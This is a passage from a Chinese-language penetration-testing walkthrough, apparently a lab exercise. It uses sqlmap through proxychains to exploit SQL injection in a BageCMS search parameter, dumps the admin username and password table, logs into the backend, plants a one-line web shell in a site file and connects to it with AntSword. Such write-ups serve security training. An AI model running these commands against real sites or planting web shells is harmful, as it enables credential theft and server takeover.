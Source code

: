 [![](https://p2.ssl.qhimg.com/t01ce6e9a23460e7c78.png)](https://p2.ssl.qhimg.com/t01ce6e9a23460e7c78.png)

[![](https://p4.ssl.qhimg.com/t01445db9733933faba.png)](https://p4.ssl.qhimg.com/t01445db9733933faba.png)

3、目前为止，步骤就很鲜明了，利用SQL注入找到后台管理员账号密码，那就用sqlmap开整吧

[![](https://p4.ssl.qhimg.com/t015f2430958790f37a.png)](https://p4.ssl.qhimg.com/t015f2430958790f37a.png)

root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&amp;keyword=1” -p keyword

4、已经发现了此站点的数据库为MySQL，使用的Nginx和php，接下来找库

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f0c48e811cf2d735.png)

root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&amp;keyword=1” -p keyword –dbs

5、看看bagecms下有哪些表

root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&amp;keyword=1” -p keyword -D bagecms –tables

[![](https://p0.ssl.qhimg.com/t01d67d3e50db4d0e6a.png)](https://p0.ssl.qhimg.com/t01d67d3e50db4d0e6a.png)

6、看一下bage_admin下的内容

root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&amp;keyword=1” -p keyword -D bagecms -T bage_admin –columns

[![](https://p5.ssl.qhimg.com/t0196d9f5be600ff97e.png)](https://p5.ssl.qhimg.com/t0196d9f5be600ff97e.png)

7、username、password自然是最感兴趣的啦，给它dump下来，在dump的过程中sqlmap会有一些提示，一路yes就行

[![](https://p4.ssl.qhimg.com/t013b27d531cb0ffd36.png)](https://p4.ssl.qhimg.com/t013b27d531cb0ffd36.png)

root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&amp;keyword=1” -p keyword -D bagecms -T bage_admin -C username,password –dump

8、找到我们想要的了，登陆后台，看看有哪些功能

[![](https://p1.ssl.qhimg.com/t011f255cfc3210cd5d.png)](https://p1.ssl.qhimg.com/t011f255cfc3210cd5d.png)

9、后台里面有文件上传的地方，有编辑主页文件的地方，为了方便，我们直接把一句话写入网站文件中

[![](https://p5.ssl.qhimg.com/t01cb6e3d34446bc23b.png)](https://p5.ssl.qhimg.com/t01cb6e3d34446bc23b.png)

[![](https://p5.ssl.qhimg.com/t014eae0a26305c8794.png)](https://p5.ssl.qhimg.com/t014eae0a26305c8794.png)

10、来到标签页，可以看到一句话生效了，接下里在SocksCap中打开蚁剑，利用蚁剑连接，注意SocksCap设置好代理
